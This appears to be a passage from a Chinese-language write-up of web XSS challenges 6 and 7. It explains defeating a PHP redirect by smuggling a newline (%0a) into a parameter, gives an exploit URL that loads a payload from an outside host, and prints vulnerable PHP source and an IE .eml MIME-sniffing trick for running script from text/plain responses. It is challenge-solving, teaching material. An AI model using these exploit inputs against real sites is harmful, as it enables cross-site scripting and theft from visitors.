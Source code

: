 这题和上一题的问题相同，主要问题就是跳转，只有组织跳转才能继续下去，这里可以使用一个小trick

```
PHP的header函数一旦遇到\0、\r、\n这三个字符，就会抛出一个错误，此时Location头便不会返回，浏览器也就不会跳转了
```

可以使用下面这个思路构造
[https://twitter.com/mramydnei/status/782324732897075200](https://twitter.com/mramydnei/status/782324732897075200)

exp
```
http://xianzhi.aliyun.com/xss6.php?url=http://ns1.rootk.pw:8080/xss/wp/6.php&filename=aaa%0a
```

# 07 text/plain#

```
<?php
header("X-XSS-Protection: 0");
header('Content-Type: text/plain; charset=utf-8');

if(substr($_GET["url"],0,4) ==="http" && substr($_GET["url"],0,8)<>"http://0" && substr($_GET["url"],0,8)<>"http://1" && substr($_GET["url"],0,8)<>"http://l" && strpos($_GET["url"], '@') === false)
{
$opts = array('http' =>
    array(
        'method' => 'GET',
        'max_redirects' => '0',
        'ignore_errors' => '1'
    )
);
$context = stream_context_create($opts);
$url=str_replace("..","",$_GET["url"]);
$stream = fopen($url, 'r', false, $context);
echo stream_get_contents($stream);
}
else
{
echo "Bad URL!";
}
?>
```

和前面的题目一样，这道题的主要问题就是返回头是text/plain，我们没办法通过正常的办法来注入标签执行。

这里使用的是一个前段时间公开的0day，当你打开.eml文件的时候，ie会执行mime嗅探，如果其中有html或者js，那么他们就会浏览器执行解析。

[https://jankopecky.net/index.php/2017/04/18/0day-textplain-considered-harmful/](https://jankopecky.net/index.php/2017/04/18/0day-textplain-considered-harmful/)

一个正常的eml大概就是下面这样
```
root@kali:/var/www/html# cat testeml_1.eml
TESTEML
Content-Type: text/html
Content-Transfer-Encoding: quoted-printable

=3Chtml=3Ethis=20is=20test=3C=2Fhtml=3E
```
